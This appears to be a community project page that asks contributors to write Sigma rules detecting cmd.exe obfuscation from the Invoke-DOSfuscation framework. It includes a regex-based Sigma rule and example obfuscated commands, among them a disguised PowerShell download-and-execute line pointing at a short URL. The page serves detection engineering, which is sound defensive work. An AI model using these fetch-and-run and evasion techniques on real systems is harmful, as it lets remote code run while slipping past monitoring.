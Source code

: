 ## Summary

- Tool: Invoke-DOSfuscation — cmd.exe command obfuscation framework
- Author: Daniel Bohannon, @danielhbohannon
- Type: Offensive tool, threat simulation
- Materials:
    * Presentation from Black Hat Asia 2018 [Techniques FOR %F IN (-style) DO (S-level CMD Obfuscation)](https://i.blackhat.com/briefings/asia/2018/asia-18-bohannon-invoke_dosfuscation_techniques_for_fin_style_dos_level_cmd_obfuscation.pdf) and the talk on [YouTube](https://www.youtube.com/watch?v=mej5L9PE1fs)
    * [WHITE PAPER | DOSFUSCATION: EXPLORING THE DEPTHS OF CMD.EXE OBFUSCATION & DETECTION TECHNIQUES](https://www.fireeye.com/content/dam/fireeye-www/blog/pdfs/dosfuscation-report.pdf)

## Problem

The majority (>50%) of Sigma rules are based on command-line events (WEL Security Event ID 4688 and Sysmon Event ID 1), but the presence of Sigma rules for cmd.exe command Obfuscation Indicators detection is quite limited.

There is only one Sigma rule that is focusing on cmd.exe commandline obfuscation detection — [rules/windows/process_creation/win_susp_cli_escape.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_cli_escape.yml). The most of the methods, supported by [Invoke-DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation) are not covered at all.

## Solution

Daniel Bohannon (@danielhbohannon) provided 1000 sample commands in the [Samples](https://github.com/danielbohannon/Invoke-DOSfuscation/tree/master/Samples) directory of the [Invoke-DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation) repo broken out across each of the four obfuscation functions. You can pick up some of the tasks in that table and develop Sigma rules for them.<br>
You will need to use [regular expressions](https://github.com/Neo23x0/sigma/wiki/Specification#types) in Sigma rules. Here is a [Sigma rule](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_invoke_obfuscation_obfuscated_iex_commandline.yml) developed by Daniel Bohannon (@danielhbohannon) that utilize regular expressions in Sigma rule:
```YAML
title: Invoke-Obfuscation Obfuscated IEX Invocation
id: 4bf943c6-5146-4273-98dd-e958fd1e3abf
description: "Detects all variations of obfuscated powershell IEX invocation code generated by Invoke-Obfuscation framework from the following code block \u2014 https://github.com/danielbohannon/Invoke-Obfuscation/blob/master/Out-ObfuscatedStringCommand.ps1#L873-L888"
status: experimental
author: Daniel Bohannon (@Mandiant/@FireEye), oscd.community
date: 2019/11/08
tags:
    - attack.defense_evasion
    - attack.t1027
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        - CommandLine|re: '\$PSHome\[\s*\d{1,3}\s*\]\s*\+\s*\$PSHome\['
        - CommandLine|re: '\$ShellId\[\s*\d{1,3}\s*\]\s*\+\s*\$ShellId\['
        - CommandLine|re: '\$env:Public\[\s*\d{1,3}\s*\]\s*\+\s*\$env:Public\['
        - CommandLine|re: '\$env:ComSpec\[(\s*\d{1,3}\s*,){2}'
        - CommandLine|re: '\*mdr\*\W\s*\)\.Name'
        - CommandLine|re: '\$VerbosePreference\.ToString\('
        - CommandLine|re: '\String\]\s*\$VerbosePreference'
    condition: selection
falsepositives:
    - Unknown
level: high
```

## The Approach

The framework provides 3 main obfuscation options:
* BINARY - Obfuscated binary syntax for cmd.exe & powershell.exe
* ENCODING - Environment variable encoding
* PAYLOAD - Obfuscated payload via DOSfuscation

### BINARY
One way to obfuscate the string PowerShell in the example command is to substitute individual characters with substrings of existing environment variable values. For example, executing the internal command ```set``` displays all environment variable name and value pairs.
![bin_ex_1](https://ibb.co/d43Jh7H)
The ```ALLUSERSPROFILE``` environment variable contains the character ```r``` at the 4th and 7th indexes. These single characters can be retrieved using cmd.exe’s native substring functionality: ```%ALLUSERSPROFILE:~4,1%``` or ```%ALLUSERSPROFILE:~7,1%```.
![bin_ex_2](https://ibb.co/HHgR7y5)
Substituting the character ```r``` in PowerShell produces: ```Powe%ALLUSERSPROFILE:~4,1%Shell```. Adding this obfuscation back into the sample malicious command results in:
```CMD
cmd.exe /c “Powe%ALLUSERSPROFILE:~4,1%Shell.exe IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/L3g1t’)”
```
![bin_ex_3](https://ibb.co/WHmQM1b)

### ENCODING

### PAYLOAD
As pointed by the author (Daniel Bohannon (@danielhbohannon)) himself, there are numerous building blocks that must be combined to perform the advanced payload encoding techniques. Searching for these building blocks in process arguments, common persistence locations and in file repositories is a good first step in reducing the data set when building robust detections for DOSfuscation in general. We're going to use Sigma so we'll be looking for those building blocks in command-line events (WEL Security Event ID 4688 and Sysmon Event ID 1).

Some basic building block concepts for each of the advanced encoding techniques are outlined below:
* Concatenation
   * Numerous set commands + logical operators & or && + call command 
   ```cmd
   cmd /c “set com3= /ano&&set com2=stat&&set com1=net&& call set final=%com1%%com2%%com3%&&call%final%”
   ```
   * Multiple adjacent environment variables for concatenation reassembly
   ``` cmd
   cmd /c “set com3= /ano&&set com2=stat&&set com1=net&& call set final=%com1%%com2%%com3%&&call %final%”
   ```
   
* FORcoding
   * Set command + for loop syntax + variable substring syntax like  ```!var:~%A,1!``` + ```if``` statement + ```callcommand``` + variable substring syntax like ```%var:~7%```, ```%var:~-12%``` or ```!var:~%A,1!```
   ``` cmd
   cmd /V:ON /C “set unique=nets/ao&&FOR %AIN (0 1 2 3 2 6 2 4 5 6 0 7 1337) DO set final=!final!!unique:~%A,1!&&IF %A==1337 CALL %final:~-12%”
   ```
   
* Reversal
   * Similar to #2 (FORcoding) but can include the for loop’s ```/L``` argument + start/increment/end integers
   ```cmd
   cmd /V:ON /C “set reverse=ona/ tatsten&& FOR /L %AIN (11 -1 0) DO set final=!final!!reverse:~%A,1!&&IF %A==0 CALL %final:~-12%”
   ```
   
* FINcoding
   * Numerous set commands + multiple string substitutions like ```%var:Z=t%``` or ```!var:e=7!``` or string removals like ```%var:@=%```
   ```cmd
   cmd /V:ON /C “set command=neZsZ7Z /7no&&  set sub2=!command:7=a!&&set sub1=!sub2:Z=t!&&CALL %sub1%”
   ```
The above building block suggestions are extremely basic and should merely serve as a starting point for detection development. However, this should begin reducing the amount of data returned from initial searches. In the case of small environments there may not be much noise at all to filter out. However, in other environments there might be one of many enterprise applications that legitimately uses for loops, variable substrings and concatenated strings on the command line in high quantities. In these environments multiple iterations and layers of detection tuning may be required.


Another example is CMD argument obfuscation. An obvious first choice would be anchoring these detections on process executions with arguments containing ```/C```, but there are numerous pitfalls to consider if using this approach:
* Whitespace is not required before or after the ```/C``` argument: ```cmd/Ccalc```
* Caret characters can break up the argument: ```cmd^/^C^calc```
* Even if detection authors account for whitespace and caret obfuscation characters applied to the ```/C``` argument, cmd.exe’s help menu states that “for compatibility reasons...```/R``` is the same as ```/C```.” So ```cmd/Ccalc``` is the same as ```cmd/Rcalc```.<br>

Another anchor character term in many of the payload encoding techniques is the ```/V:ON``` argument for enabling delayed environment variable expansion. However, it too is subject to several pitfalls:
* Whitespace is not required before or after the ```/V:ON``` argument: ```cmd/V:ON/Ccalc```
* Caret characters can break up the argument: ```cmd^/^V^:^O^N^/Ccalc```   
* ```/V:ON``` can also be written as ```/V:O```, ```/V:```, ```/V```, and (barring some minor syntax exceptions and the ```/V:OFF``` argument) any combination of characters after ```/V``` including ```/VeryObfuscated```, ```/VivaLaVida```, ```/V_--_==```, etc.
* It is also worth noting that in the context of cmd.exe’s arguments, ```\C``` means nothing if appearing before ```/C```. An example intended to throw off visual inspection of command line arguments would be ```cmd.exe \C echo %PATH%``` <100’s of whitespace characters> ```/C netstat /ano``` where everything before ```/C``` is ignored.


Considering all this we developed a table with pre-generated CMD commands, obfuscated by the [Invoke-DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation) framework, to achieve our main goal to detect the obfuscation method looking for similar patterns in all of it obfuscation examples.

### A little tip for the regex development

You can copy all pre-generated obfuscated powershell one-liners from a particular task (that are generated by a specific obfuscation method) and paste them to [regex101](https://regex101.com/) web-app for regular expression development. It will simplify the process a lot, and help you to find patterns to detect. (you can save your progress there and even apply a dark theme (: ). 

### Case Sensitivity

We consider that we're able to apply all regexes as not case sensitive or that all events are lowercased in a log pipeline before indexing in SIEM/LM system.

### Framework coverage
For fuzzing and deep exploration of the numerous tuning options for each obfuscation category, it is recommended that the individual functions be used directly outside of the Invoke-DOSfuscation function wrapper.

## Tasks

